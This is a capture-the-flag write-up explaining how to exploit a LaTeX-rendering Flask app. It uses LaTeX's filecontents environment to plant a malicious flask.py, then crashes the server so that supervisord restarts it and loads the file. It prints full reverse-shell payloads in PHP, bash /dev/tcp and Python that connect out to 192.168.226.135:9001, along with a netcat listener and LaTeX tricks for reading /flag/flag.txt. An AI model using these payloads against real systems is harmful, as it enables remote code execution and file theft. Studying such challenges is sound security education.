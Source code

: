 # TeXnically Insecure

## Intro

This challenge is meant to showcase a very obscure LaTeX exploit, paired with a nice flask exploit/misconfiguration. It therefore tries to block a lot of exploits to force people into the more obscure one. However, that did not work, as people found unintentional bypasses which will be described [here](#bypasses). If you know an exploit that isn't listed here, feel free to tell me, I'd be interested :)

## Blocked Exploits

I did a bunch of research on known LaTeX exploits. These should all be properly blocked, as you can see in the source code. Some of them are also pretty cool though, so feel free to give these resources a read:

- <https://book.jorianwoltjer.com/languages/latex>
- <https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection>
- <https://sk3rts.rocks/posts/bypassing-latex-filters/>
- <https://0day.work/hacking-with-latex/>
- <https://tex.stackexchange.com/tags/catcodes/info>
- <https://www.researchgate.net/publication/234829253_Are_text-only_data_formats_safe_or_use_this_LATEX_class_file_to_Pwn_your_computer>

## The actual exploit

Finding the intended exploit is a bit harder. Knowing that I was looking for the `filecontents` command, I found these 3 resources that mention it:

- <https://texdoc.org/serve/latex2e.pdf/0>
- <https://de.mirrors.cicku.me/ctan/macros/latex/contrib/filecontents/filecontents.pdf>
- actually mentioned as an exploit: <https://0xdf.gitlab.io/2023/11/04/htb-topology.html>

I originally discovered it in the first resource while doing HTB Topology. Before you ask: No, this challenge is not based on Topology. This exploit was in no way intentional there, but happened to work. The only similarity is that both challenges require the exploitation of LaTeX. 
The idea now is that using the semi-deprecated command called `filecontents`, you can write files to your current working directory (and probably subdirectories too). If the app was written in PHP, this would be fairly straightforward:

```LaTeX
\begin{filecontents}{shell.php}
<?php system(bash -c 'bash -i >& /dev/tcp/192.168.226.135/9001 0>&1'); ?>
\end{filecontents}
```

Now we could simply navigate to `shell.php` with our browser after setting up a netcat listener, and we'd have a shell. However, I wrote the challenge in Python, cause I honestly didn't wanna touch PHP. Sooo, we need a different approach.
We can still use filecontents to write files, for example a `flask.py`. That doesn't actually do anything, at least not on its own. The next step would be to make the app restart. That causes it to reload its imports. Python always checks its current working directory first, so it'd be using our `flask.py` when importing flask. But let's first try writing our file with a python reverse shell:

```LaTeX
\begin{filecontents}{flask.py}
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.226.135",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
\end{filecontents}
```

Here is what that looks like:

```
%% LaTeX2e file `flask.py'
%% generated by the `filecontents' environment
%% from source `output' on 2024/12/19.
%%
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.226.135",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Again, in PHP this would work because PHP doesn't give a shit about anything. Python however sees the LaTeX comments that it doesn't understand and promptly crashes. Not helpful. 
When digging deeper, we can find that there in another variant of the `filecontents` command, which is `filecontents*`. This is exactly the same thing, but without the comment. Problem solved.
Now our `flask.py` looks like this:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.226.135",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

While this is cool, we still need a way to restart the python server. There are a few interesting things to notice in the source code. Firstly, it uses supervisord to restart the app whenever it crashes. So if we can crash the app, it would restart, reload its imports and execute our reverse shell.
If you've worked with flask before, you're probably well aware that while it may throw some errors here or there, it doesn't crash. But the configuration in use here is no default configuration. It uses `passthrough_errors=True` and `threaded=False`. The first is usually set to disable flasks error handling so that you can use an external debugger. For our purposes, it simply means that an actual error in flask itself will make it crash. Disabling threading simply means that one error actually kills it and it doesn't continue limping on in another thread.
So all we need is some way to make the flask crash and we'll get our shell and with that the flag. There are likely countless ways you could do that. One way I stumbled upon is sending it the IP address `[1:1]` in a GET request, as you can see in the [solve script](./solve.py). 

### Full exploit chain

First, creating our flask.py. Make sure you edit IP and port and don't have a `flask.py` already as we aren't using the overwrite argument here. Also, Python loves its indentation, so keep that in mind if you write a script.

```LaTeX
\begin{filecontents*}{flask.py}
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.226.135",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
\end{filecontents*}
```

Next, Set up a netcat listener: `nc -lnvp 9001`

Lastly, crash the server, for example using the `crash` function in the [solve script](./solve.py)

## Bypasses

The simplest bypass, and I can't believe I didn't catch that before releasing the challenge (only noticed during the CTF -.-), is writing commands into the `\begin{}`, just like in the intended solution. The blacklist filters for commands beginning with `\`, so it can be trivially bypassed this way. At this point, you can simply use `\begin{input}{/flag/flag.txt}`. This bypass was then fixed in the revenge challenge.
But there's more, as I came to learn. For example this `\begin{inpu\iftrue t\fi}{"/flag/flag.txt"}`.
Or this:

```LaTeX
\pdfobj stream file {/flag/flag.txt}
\pdfrefobj 1
hallo
```

Or this:

```LaTeX
\ttfamily
\pdffiledump offset 0 length \pdffilesize{/flag/flag.txt}{/flag/flag.txt}
```

So yeah, what we learn here is that LaTeX is utterly broken. If you didn't know already, it should be abundantly clear now :D
